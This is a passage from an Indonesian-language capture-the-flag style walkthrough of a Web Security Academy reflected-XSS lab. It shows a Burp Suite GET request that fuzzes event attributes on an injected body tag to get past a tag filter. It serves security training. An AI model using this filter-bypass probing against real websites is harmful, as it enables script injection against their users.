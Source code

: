 ![Langkah 2](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/2.png)

![Langkah 3](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/3.png)

### 3. Menguji Atribut yang Diperbolehkan

Setelah mengetahui bahwa tag `<body>` diterima, kita akan menguji atribut yang diperbolehkan untuk memanggil fungsi `print()`.

#### a. Mengirim Permintaan GET dengan Payload Atribut Event

Kirim permintaan GET berikut menggunakan Burp Suite:

```plaintext
GET /?search=<body%20§§=1> HTTP/2
Host: 0aea005104d1419c805a3fe60055007f.web-security-academy.net
Cookie: session=9FSUj13f4MvEvCHHqnpyuvyXNGkFU3de
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aea005104d1419c805a3fe60055007f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```
